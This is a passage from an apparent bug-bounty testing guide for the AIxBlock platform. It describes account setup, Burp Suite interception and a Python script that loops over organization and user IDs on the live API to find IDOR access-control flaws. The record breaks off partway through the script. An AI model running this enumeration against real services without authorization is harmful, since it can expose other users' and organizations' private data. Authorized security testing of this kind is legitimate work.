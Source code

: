 # Step-by-Step Security Testing Guide

## 🚀 Phase 1: Account Setup & Initial Reconnaissance

### Step 1: Create Test Accounts
```bash
# Visit https://app.aixblock.io
# Create 2 test accounts:
# - Primary testing account (your main account)
# - Secondary account (for IDOR testing)
# Document account details securely
```

### Step 2: Platform Exploration
```bash
# Login and explore all features:
# 1. Profile management
# 2. Organization settings
# 3. Workflow creation
# 4. File upload functionality
# 5. API interactions (check browser dev tools)
```

### Step 3: Traffic Interception Setup
```bash
# Configure Burp Suite:
# 1. Set browser proxy to 127.0.0.1:8080
# 2. Install Burp certificate
# 3. Enable intercept
# 4. Browse the application to capture requests
```

## 🎯 Phase 2: High-Priority Vulnerability Testing

### Test 1: IDOR (Insecure Direct Object Reference)
**Target**: API endpoints with user/organization IDs
**Previous Success**: $450 reward for organization IDOR

```python
# Test Script: idor_test.py
import requests

def test_idor_vulnerability():
    # Your session cookies after login
    cookies = {'sessionid': 'YOUR_SESSION_ID'}
    
    # Test organization access with different IDs
    org_ids = [1, 2, 3, 100, 999, 1000]
    
    for org_id in org_ids:
        url = f"https://api.aixblock.io/organizations/{org_id}"
        response = requests.get(url, cookies=cookies)
        
        if response.status_code == 200:
            print(f"POTENTIAL IDOR: Can access org {org_id}")
            print(f"Response: {response.text[:200]}...")
        
    # Test user profile access
    user_ids = [1, 2, 3, 100, 999, 1000]
    
    for user_id in user_ids:
```